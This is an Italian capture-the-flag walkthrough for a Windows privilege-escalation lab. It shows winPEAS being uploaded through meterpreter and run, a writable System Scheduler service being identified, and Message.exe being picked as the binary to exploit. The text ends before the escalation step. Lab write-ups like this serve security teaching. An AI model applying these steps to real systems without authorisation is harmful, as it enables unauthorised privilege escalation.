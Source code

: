 ```
chmod +x winPEASx64.exe
```
```
pwd
```
```
/home/kali/Downloads/WinPrivEsc
```

Dopo aver scaricato winPEAS, è necessario caricarlo nel computer.

da meterpreter
```
upload /home/kali/Downloads/WinPrivEsc/winPEASx64.exe
```

```
shell
```

```
.\winPEASx64.exe
```

Qual è la versione del sistema operativo di questo computer Windows?
```
Windows 2012 R2 (6.3 Build 9600)
```
Qual è il nome del _servizio_ anomalo in esecuzione?
```
 WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running                                                                
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])                                                                              
    System Scheduler Service Wrapper

```
	risultato winPEAS
```
WindowsScheduler
```

```
cd C:\Program Files (x86)\SystemScheduler\Events
```

```
dir
```

```
type 20198415519.INI_LOG.txt
```
Qual è il nome del binario che dovresti sfruttare?
```
Message.exe
```
Utilizzando questo servizio anomalo, aumenta i tuoi privilegi!
```
cd C:\Program Files (x86)\SystemScheduler
```
